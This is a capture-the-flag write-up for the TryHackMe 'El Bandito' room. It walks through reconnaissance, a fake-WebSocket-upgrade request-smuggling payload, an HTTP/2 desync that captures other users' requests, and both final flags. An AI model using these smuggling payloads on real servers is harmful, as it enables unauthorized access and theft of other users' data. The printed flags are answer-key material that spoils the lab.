# El Bandito — TryHackMe Write-up

## Room Overview

El Bandito, the new identity of the infamous Jack the Exploiter, has entered the Web3 landscape with a large-scale token scam operation. By abusing the decentralized nature of blockchain technologies, he distributed fraudulent tokens to deceive investors and destabilize trust within the DeFi ecosystem.

The objective of this challenge is to investigate the infrastructure used by El Bandito, uncover hidden vulnerabilities, retrieve the required web flags, and ultimately track down his operations.

Difficulty: **Hard**

---

## Objectives

1. Find the first web flag
2. Find the second web flag

---

## Reconnaissance

### Nmap Scan

```bash
nmap -sC -sV <MACHINE_IP>
```

### Output

```text
PORT     STATE SERVICE VERSION

22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13

631/tcp  open  ipp     CUPS 2.4
- http-title: Forbidden - CUPS v2.4.12

80/tcp   open  ssl/http El Bandito Server
8080/tcp open  http    Nginx

```

## Web Enumeration

After the initial reconnaissance phase, the HTTPS service hosted on the target machine was manually inspected through a web browser.

Browsing to the HTTPS application revealed a minimal page displaying the message:

```text
nothing to see
```

At first glance, the application appeared intentionally minimal and did not expose any obvious functionality.

### Initial HTTPS Page



Since minimal web applications often hide functionality within client-side resources, the page source was inspected for additional clues.

---

## Source Code Analysis

Reviewing the HTML source code revealed a JavaScript reference pointing to:

```text
static/messages.js
```

This suggested that additional functionality or hidden logic might exist within the application's static resources.

### Page Source Inspection



The discovery of the JavaScript file indicated that further web enumeration was required to uncover hidden endpoints and application functionality.

## Directory Enumeration

To identify hidden endpoints and exposed functionality, directory enumeration was performed against the HTTPS service using Gobuster.

```bash id="jlwm8v"
gobuster dir -u https://<MACHINE_IP>:80/ \
-w <WORDLIST_PATH> \
-x txt,js,php,html -k
```

### Output

```text id="jlwm1t"
/static               (Status: 301)
/login                (Status: 405)
/access               (Status: 200)
/ping                 (Status: 200)
/messages             (Status: 302)
/save                 (Status: 405)
/logout               (Status: 302)
/flush                (Status: 200)
```

### Analysis

The enumeration process revealed several interesting endpoints exposed by the application.

Notable findings included:

| Endpoint    | Observation                                    |
| ----------- | ---------------------------------------------- |
| `/access`   | Accessible sign-in page                        |
| `/login`    | Login-related functionality returning HTTP 405 |
| `/messages` | Redirected back to root                        |
| `/flush`    | Accessible endpoint returning HTTP 200         |
| `/ping`     | Active endpoint responding successfully        |

The `/access` endpoint exposed a sign-in interface, indicating that the application implemented an authentication mechanism that could potentially be targeted during further testing.

Multiple endpoints also returned successful responses (`HTTP 200 OK`), suggesting additional application functionality that required deeper investigation.

### Sign-In Page



At this stage, the focus shifted toward analyzing the authentication workflow and interacting with the discovered endpoints to identify potential vulnerabilities or logic flaws.

## Further Enumeration

Despite identifying multiple endpoints and an exposed sign-in interface, further manual testing and walkthrough analysis of the web application on port 80 did not immediately reveal any exploitable vulnerabilities or useful information.

The discovered functionality appeared intentionally minimal, and the exposed endpoints largely resulted in redirects, restricted methods, or dead ends during initial testing.

At this stage, the attack surface on port 80 appeared exhausted for the moment.

To continue the assessment, attention shifted toward another exposed service running on port `8080`, which became the next target for enumeration and analysis.

## Port 8080 Enumeration

After exhausting the initial attack surface on port 80, attention shifted toward another exposed service running on port `8080`.

Browsing to the application revealed a cryptocurrency-themed website called **Bandit-Coin**.

The application appeared to simulate a Web3 cryptocurrency platform and exposed a dashboard-style interface.

### Bandit-Coin Dashboard


Initial walkthrough and manual testing of the application did not immediately reveal any sensitive information or obvious vulnerabilities.

Since the web application appeared larger and more feature-rich than the previous service, directory enumeration was performed to identify hidden endpoints and administrative functionality.

### Gobuster Enumeration

```bash
gobuster dir -u http://<MACHINE_IP>:8080 \
-w <WORDLIST_PATH> \
-b 404
```

### Interesting Endpoints

```text
/admin               (Status: 403)
/assets              (Status: 200)
/health              (Status: 200)
/traceroute          (Status: 403)
/trace               (Status: 403)
/environment         (Status: 403)
/administration      (Status: 403)
/error               (Status: 500)
/administrator       (Status: 403)
/metrics             (Status: 403)
/env                 (Status: 403)
/dump                (Status: 403)
```

### Analysis

The enumeration process exposed multiple potentially sensitive endpoints commonly associated with:

* administration panels
* debugging functionality
* environment configurations
* application health monitoring
* tracing utilities
* metrics collection

Several endpoints returning `403 Forbidden` were especially interesting because they confirmed the existence of restricted resources rather than nonexistent paths.

Notable findings included:

| Endpoint                 | Observation                                       |
| ------------------------ | ------------------------------------------------- |
| `/admin`                 | Restricted administrative functionality           |
| `/environment`           | Potential environment configuration exposure      |
| `/metrics`               | Possible monitoring or observability endpoint     |
| `/dump`                  | Potential debug or memory dump functionality      |
| `/trace` & `/traceroute` | Possible tracing or internal diagnostic utilities |
| `/error`                 | Returned HTTP 500 Internal Server Error           |

The `/error` endpoint returning a `500 Internal Server Error` strongly suggested backend processing issues and indicated that the application might expose additional information during malformed requests or forced error conditions.

At this stage, the assessment shifted toward probing these endpoints further for misconfigurations, information disclosure, or access control weaknesses.

## JavaScript Analysis

While analyzing the exposed `static/messages.js` file discovered earlier during source code inspection, additional application functionality was identified within the client-side JavaScript logic.

Reviewing the script revealed two interesting endpoints used by the application:

```text id="jlwm9q"
/getMessages
/send_message
```

The `fetchMessages()` function performed requests to the `/getMessages` endpoint in order to retrieve user messages dynamically.

```javascript id="jlwm2x"
fetch("/getMessages")
```

### `fetchMessages()` Function



Attempting to access `/getMessages` directly through the browser resulted in a redirect back to the login page, indicating that the endpoint required authentication or session validation.

Further analysis of the JavaScript source revealed another function named `sendMessage()` which issued a POST request to the `/send_message` endpoint.

```javascript id="jlwm7r"
fetch("/send_message", {
	method: "POST"
})
```

Direct browser access to `/send_message` returned a `Method Not Allowed` response, suggesting that the endpoint specifically expected crafted POST requests rather than standard browser GET requests.

### `sendMessage()` Function



The exposed messaging functionality appeared highly interesting because:

* authenticated message retrieval was implemented
* client-side messaging logic was exposed
* custom POST requests were used for sending data
* backend interaction endpoints were directly visible within the JavaScript source

At this stage, the focus shifted toward interacting with these endpoints directly and analyzing how the backend processed user-controlled input.

## Service Discovery & Backend Analysis

While further exploring the **Bandit-Coin** dashboard hosted on port `8080`, the application's services section exposed two internal domains along with their status indicators:

```text id="jlwm8z"
http://bandito.websocket.thm  -> OFFLINE
http://bandito.public.thm     -> ONLINE
```

### Exposed Internal Services



Testing the discovered domains revealed different behavior:

* `bandito.public.thm` redirected back to the main web application hosted on port `80`
* `bandito.websocket.thm` appeared inaccessible externally and remained unresolved through direct browser interaction

This strongly suggested the existence of an internal backend service not directly exposed to external users.

Further investigation using the browser developer tools revealed that the dashboard performed backend requests through the following endpoint:

```text id="jlwm4f"
/isOnline?url=
```

The application issued requests similar to:

```http id="jlwm1u"
GET /isOnline?url=http://bandito.websocket.thm HTTP/1.1
Host: 10.49.178.30:8080
User-Agent: Mozilla/5.0
Referer: http://10.49.178.30:8080/services.html
Connection: keep-alive
```

Interestingly, the requests generated different responses depending on the target service:

| URL                     | Response |
| ----------------------- | -------- |
| `bandito.public.thm`    | HTTP 200 |
| `bandito.websocket.thm` | HTTP 500 |

The differing responses strongly indicated that the backend application was attempting to communicate with internal services directly.

Several observations made this functionality highly suspicious:

* user-controlled URLs were processed by the backend
* internal hostnames were exposed through the dashboard
* backend requests behaved differently based on target services
* one service appeared intentionally inaccessible externally
* the endpoint potentially acted as a proxy or backend connectivity checker

The presence of the `bandito.websocket.thm` hostname also suggested that a WebSocket-related service might exist internally within the infrastructure.

At this stage, the assessment shifted toward testing whether the `/isOnline` functionality could be abused to interact with internal services or smuggle crafted requests through the backend application.

## Exploiting the WebSocket Upgrade Mechanism

To exploit the suspected backend proxy behavior, a custom Python HTTP server was created to return a `101 Switching Protocols` response, simulating a successful WebSocket upgrade.

### Malicious Upgrade Server

```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("Usage: {}".format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
    def do_GET(self):
        self.protocol_version = "HTTP/1.1"
        self.send_response(101)
        self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

The server was started locally using:

```bash
python3 server.py <PORT_NO>
```

The supplied argument specifies the listening port for the malicious server.

The objective was to abuse the backend's handling of WebSocket upgrade requests and smuggle additional HTTP requests through the connection.

A crafted request was sent through Burp Repeater:

```http
GET /isOnline?url=http://<ATTACKER_IP>:<PORT_NO> HTTP/1.1
Host: 10.10.91.160:8080
Set-WebSocket-Version: 777
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==late, br

GET /env HTTP/1.1
Host: 10.10.91.160:8080


```

### Important Notes

* The payload only worked when **two blank lines** were left after the smuggled request inside Burp Repeater.
* Burp Repeater's **Update Content-Length** option had to be disabled.
* The backend incorrectly trusted the upgraded connection and processed the smuggled request internally.

Successful exploitation allowed access to the restricted `/env` endpoint.

### `/env` Response



The same technique was then used against the `/trace` endpoint simply by replacing:

```text
/env
```

with:

```text
/trace
```

### `/trace` Response



The `/trace` response exposed additional sensitive internal paths:

```text
/admin-creds
/admin-flag
```

Using the exact same smuggling technique, requests were crafted to retrieve the contents of both endpoints.

### `/admin-creds` Response



The retrieved credentials provided administrative access required to continue the challenge.

The `/admin-flag` endpoint exposed the first web flag.

### `/admin-flag` Response



This vulnerability demonstrated a critical flaw in the backend's handling of WebSocket upgrade requests and internal request parsing, ultimately enabling HTTP request smuggling and unauthorized access to restricted internal resources.

## HTTP/2 Desynchronization Attack

Using the previously retrieved administrative credentials, access was gained to the chat application hosted on port `80`.

While analyzing authenticated traffic through Burp Suite, it was observed that the application communicated using the `HTTP/2` protocol.

This introduced the possibility of exploiting HTTP request desynchronization vulnerabilities between the frontend and backend servers.

The assessment focused on poisoning the backend request queue in order to retrieve requests belonging to other users.

### Smuggled HTTP/2 Request

A crafted desynchronization payload was sent through Burp Repeater:

```http
POST / HTTP/2
Host: 10.10.40.250:80
Cookie: session=<SESSION_ID>
Content-Length: 0
Content-Type: application/x-www-form-urlencoded

POST /send-message HTTP/1.1
Host: 10.10.40.250:80
Cookie: session=<SESSION_ID>
Content-Length: 900
Content-Type: application/x-www-form-urlencoded

data=e


```

The payload abused inconsistencies between HTTP/2 and backend HTTP/1.1 request parsing.

The backend incorrectly interpreted the smuggled request as a separate HTTP request, allowing the backend request queue to become poisoned.

### Important Notes

* Burp Repeater's **Update Content-Length** option had to be disabled.
* Two blank lines had to be left after the smuggled request.
* The payload needed to be sent multiple times through Burp Repeater.
* The chat application required repeated refreshing in order to receive another user's queued request.

Successful exploitation eventually caused another user's request to be processed within the poisoned backend connection.

This allowed retrieval of sensitive application data, including the second flag.

### Second Flag Retrieved



This attack demonstrated a critical HTTP/2 desynchronization vulnerability caused by improper request boundary handling between frontend and backend systems.

The vulnerability ultimately enabled backend request poisoning and unauthorized access to other users' application data.

## Flags

### Flag 1

```text
THM{:::MY_DECLINATION:+62°_14'_31.4'':::}
```

### Flag 2

```text
THM{¡!¡RIGHT_ASCENSION_12h_36m_25.46s!¡!}
```
